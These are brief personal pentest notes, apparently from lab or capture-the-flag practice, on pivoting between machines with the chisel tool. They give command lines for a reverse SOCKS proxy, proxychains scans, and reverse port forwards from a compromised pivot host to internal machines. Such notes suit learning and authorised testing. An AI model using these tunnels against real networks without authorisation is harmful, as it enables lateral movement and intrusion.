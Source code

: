 https://www.youtube.com/watch?v=dIqoULXmhXg

pivoting from one machien to next without using ssh

we need to use the system as a proxy

https://github.com/jpillora/chisel

download from releases

in linux server
./chisel server -p 800 --reverse

in windows client
./chisel client ip:8000 R:socks

change
/etc/proxychains.conf
then we can use socks proxy

proxychains nmap <ip>

### using chisel for specific ports

./chisel client 10.10.16.24:8001 R:5985:172.16.22.1:5985

here 10.10.16.24 is my target machines and 172.16.22.1 is the next hop machine. the above lines must be entered in the pivot machine. (172.16.22.2)

./chisel server -p 8001 — reverse

we can also use it ot pivot multiple ports

.\chisel.exe client 10.10.16.24:9095 R:80:localhost:80 R:443:localhost:443 R:8888:localhost:8888 R:9251:localhost:9251
./chisel server -p 9095 -reverse

.\chisel.exe client 10.10.16.24:9095 R:5555:localhost:5555

